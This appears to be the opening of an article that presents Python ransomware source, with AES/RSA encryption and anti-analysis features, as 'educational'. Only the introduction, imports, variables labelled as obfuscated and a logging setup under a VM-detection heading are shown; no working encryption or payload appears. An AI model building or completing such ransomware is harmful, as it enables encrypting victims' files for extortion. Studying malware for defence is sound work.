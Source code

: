Nederlandse piraat **Ransomware**
=================================

**Simulated Ransomware: How It Encrypts Files and Avoids Detection**
====================================================================
![Simulated Ransomware Image](https://www.amazon.com/images/M/MV5BMmQ5ZmQ4ZTQtOTkxMy00OGFiLTg1ZDQtNWJmYWU3YjJmYTczXkEyXkFqcGc@._V1_.jpg)

**Introduction**
----------------

Ransomware is a type of malware that encrypts a victim's files and demands a ransom in exchange for the decryption key. In this article, we will analyze a simulated ransomware example written in Python, which uses advanced encryption techniques (AES and RSA) and anti-analysis methods to make detection and debugging more difficult. The objective is to understand how these techniques work and why they are used.

**Warning**: This code is **for educational purposes only**. The use of ransomware is illegal and unethical. This article is intended for cybersecurity researchers who want to understand how these threats work in order to better combat them.

* * *

**Code Structure**
------------------

The code is divided into several functions, each with a specific purpose. We will analyze each of them in detail.

* * *

### **1\. Virtual Machine (VM) Detection**

    import os
    import random
    import time
    import threading
    import logging
    import platform
    import ctypes
    import sys
    from Crypto.Cipher import AES
    from Crypto.Random import get_random_bytes
    from Crypto.PublicKey import RSA
    from Crypto.Cipher import PKCS1_OAEP
    
    # Obfuscate variable names
    log_filename = 'log.txt'
    key_len = 32
    
    # Log configuration (Obfuscated)
    logging.basicConfig(filename=log_filename, level=logging.ERROR, format='%(asctime)s - %(levelname)s - %(message)s')
    